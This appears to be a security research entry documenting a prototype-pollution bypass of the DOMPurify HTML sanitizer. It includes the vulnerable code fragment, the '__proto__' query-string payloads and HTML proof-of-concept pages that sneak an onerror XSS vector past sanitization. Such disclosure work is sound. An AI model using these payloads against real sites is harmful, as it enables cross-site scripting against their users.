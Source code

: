 ## DOMPurify

URL: https://github.com/cure53/DOMPurify/

### Vulnerable code fragment
https://github.com/cure53/DOMPurify/blob/3c610449ecf34da4acb6947c8e08ab1fcb3baea8/dist/purify.js
```js
DOMPurify.isSupported = implementation && typeof implementation.createHTMLDocument !== 'undefined' && document.documentMode !== 9;
...
ALLOWED_TAGS = 'ALLOWED_TAGS' in cfg ? addToSet({}, cfg.ALLOWED_TAGS) : DEFAULT_ALLOWED_TAGS;
```

### PoC

#### ALLOWED_ATTR

```
?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.12/purify.min.js"></script>
<script>
  Object.prototype.ALLOWED_ATTR = ['onerror', 'src']
</script>
<script>
  document.write(DOMPurify.sanitize('<img src onerror=alert(1)>'))
</script>
```

#### documentMode

```
?__proto__[documentMode]=9
```

```html
<script>
  Object.prototype.documentMode = 9
</script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.12/purify.min.js"></script>
<script>
  document.write(DOMPurify.sanitize('<img src onerror=alert(1)>'))
</script>
```